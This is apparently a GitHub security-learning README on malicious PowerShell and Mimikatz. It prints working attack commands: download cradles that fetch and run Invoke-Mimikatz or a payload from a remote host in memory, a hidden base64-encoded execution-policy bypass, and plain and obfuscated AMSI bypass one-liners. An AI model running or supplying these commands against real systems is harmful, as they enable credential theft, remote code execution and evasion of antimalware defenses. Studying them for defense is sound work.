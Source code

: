 [![alt-text](https://img.shields.io/github/repo-size/Phongtran1201/knowledge)](https://github.com/Phongtran1201/Knowledge.git)
[![alt-text](https://img.shields.io/github/languages/top/Phongtran1201/knowledge)](https://github.com/Phongtran1201/Knowledge.git)
[![alt-text](https://img.shields.io/maintenance/no/2022)](https://github.com/Phongtran1201/Knowledge.git)
[![alt-text](https://img.shields.io/twitter/url?style=social&url=https%3A%2F%2Fexmple.com)](https://github.com/Phongtran1201/Knowledge.git)
[![alt-text](https://img.shields.io/github/followers/Phongtran1201?style=social)](https://github.com/Phongtran1201/Knowledge.git)



# Malicious Powershell 
In this series, I'll discuss why organizations should care about malicious Powershell activity, how the attackers use Powershell to steal credential(e.g.,Mimikatz) and how to prevent and detect malicious Powershell activity.

## Why do attackers love Powershell ?
PowerShell, a powerful Windows scripting language, is used by IT professionals and adversaries alike. Attackers favor PowerShell for several reasons:

- It's build-in command line tool.
- It can download and execute code from another system.
- It provides unprecedented access on Windows computers
- It’s enabled on most computers, as system administrators use PowerShell to automate various tasks (e.g,. shut down your machines automatically at 12 a.m.—do this via task scheduler)
- Its malicious use is often not stopped or detected by traditional endpoint defenses, as files and commands are not written to disk. This means fewer artifacts to recover for forensic analysis.

Several offensive tools exist that are built on or use PowerShell, including the following:
- [Empire](https://github.com/EmpireProject/Empire)
- [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)
- [Metasploit](https://www.rapid7.com/db/modules/post/windows/manage/exec_powershell/)
- [Invoke-Mimikatz](https://github.com/clymb3r/PowerShell/tree/master/Invoke-Mimikatz)

Eliminating Powershell isn't ideal due to the benifits it offers IT administrators. Instead, we need to learn how to secure Powershell.

Let's take a deep dive into Powershell usage to dump password with Mimikatz.

## What is Mimikatz, and how does it work?
Mimikatz is a post-exploitation tool used to dump passwords, hashes, and Kerberos tickets from memory. Attackers use Mimikatz to steal credentials and escalate their privileges; similarly, pen testers use Mimikatz to retrieve plaintext versions of passwords from hashes stored in memory (these exist to provide Windows single sign-on (SSO) functionality). It enables many attacks that use credentials such as pass the hash, pass the ticket, golden Kerberos ticket, and so on. 

In order to facilitate SSO, whenever a user authenticates, a variety of credentials are generated and stored in LSASS memory. The credentials stored in LSASS memory can be NTLM password hashes, Kerberos tickets, and even clear-text passwords when using the Windows feature WDigest. WDigest, introduced with Windows XP, is an authentication protocol used for LDAP and web-based authentication. Client machines that seek to authenticate must demonstrate their knowledge of secret keys. This improves on earlier versions of HTTP authentication where the user provides a password that is not encrypted when sent to authenticating server. As WDigest stores cleartext passwords in memory, if an attacker has control over that endpoint, they can run Mimikatz to steal hashes and clear text passwords.

Mimikatz was most famously used in the Petya and NotPetya attacks that affected thousands of computers worldwide between 2016 and 2017. The NotPetya virus, similar to Petya, infects a target computer, encrypts the data on the computers and displays a message for the victim explaining how to send bitcoin in order to retrieve the encrypted data.

Let's look at a malicious PowerShell command for fileless network access and remote content execution. This command passes the contents of the file hosted on the below URL to PowerShell via the commandline, and executes it "in memory" on the target system:

    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"
    
where:
- IEX or Invoke-Expression cmdlet: executes the command provided on the local machine.
- New-Object cmdlet: creates an instance of a .NET Framework
- downloadstring: download the contents from Github into a memory buffer, which IEX will execute
- DumpCreds parameter: instructs Mimikatz to dump credentials out of LSASS.  


---

      powershell.exe -Noprofile -NonI -W Hidden -Exec Bypass -encodedcommand  SUVYICgobmV3LW9iamVjdCBuZXQud2ViY2xpZW50KS5kb3dubG9hZHN0cmluZygnaHR0cHM6Ly93d3cuZmlyZWV5ZS5jb20vY29tcGFueS9qb2JzLmh0bWwnKSk=

The following is a quick explanation of the arguments:
- -NoProfile – indicates that the current user’s profile setup script should not be executed when the PowerShell engine starts.
- -NonI – shorthand for -NonInteractive, meaning an interactive prompt to the user will not be presented.
- -W Hidden – shorthand for “-WindowStyle Hidden”, which indicates that the PowerShell session window should be started in a hidden manner.
- -Exec Bypass – shorthand for “-ExecutionPolicy Bypass”, which disables the execution policy for the current PowerShell session (default disallows execution). It should be noted that the Execution Policy isn’t meant to be a security boundary.
- -encodedcommand – indicates the following chunk of text is a base64 encoded command.

--- 
Check version of powershell 
        
        $PSVersionTable

| Name                           | Value                      |
|:------------------------------:|:--------------------------:|                         
| PSVersion                      | 5.1.19041.1682             |
| PSEdition                      | Desktop                    |
| PSCompatibleVersions           | {1.0, 2.0, 3.0, 4.0...}    |
| BuildVersion                   | 10.0.19041.1682            |
| CLRVersion                     | 4.0.30319.42000            |
| WSManStackVersion              | 3.0                        |
| PSRemotingProtocolVersion      |2.3                         |
| SerializationVersion           | 1.1.0.1                    |  



# AMSI bypass methods
## How AMSI work.
When a user executes a script or initiates PowerShell, the AMSI.dll is injected into the process memory space. Prior to execution the following two API’s are used by the antivirus to scan the buffer and strings for signs of malware.
- AmsiScanBuffer()
- AmsiScanString()

![AMSI work](https://pentestlaboratories.files.wordpress.com/2021/05/amsi-powershell-flowchart-1.png?w=1024)

1. PowerShell Downgrade
        
        powershell -version 2
2. Base64 Encode 
- original AMSI bypass

        [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
- Base64 Encode
        
        [Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
        
        
A Sample Malicious PowerShell Process - To launch and Download a Remote File
          
        powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('https://js.choosebudget.com:443/sc\u0441'))\
        
- powershell.exe: specifies a standard ps command 
- nop (noprofiel): starts powershell without loading any PowerShell Profiles.
- w hidden (-WindowStyle): hide the session window from user. valid values are Normal, Min, Max and Hidden
- c (-Command): which is followed by the command to run.
- IEX (Invoke-Expression): runs a specified string as cmd and returns the results fo the expression or cmd
- New-Object: -cmdlet creates an instance of a .NET framework or COM object
- Net.webclient: Provides common methods for sending & receiving data from a resource indentified by a URI
- e (encode) parameter indicates that what follows is base64 encoded



# Preferences
- https://docs.microsoft.com/en-us/powershell/module/defender/set-mppreference?view=windowsserver2022-ps
- https://github.com/danielbohannon/Revoke-Obfuscation/tree/master/DataScience
- https://github.com/PowerShellMafia/PowerSploit


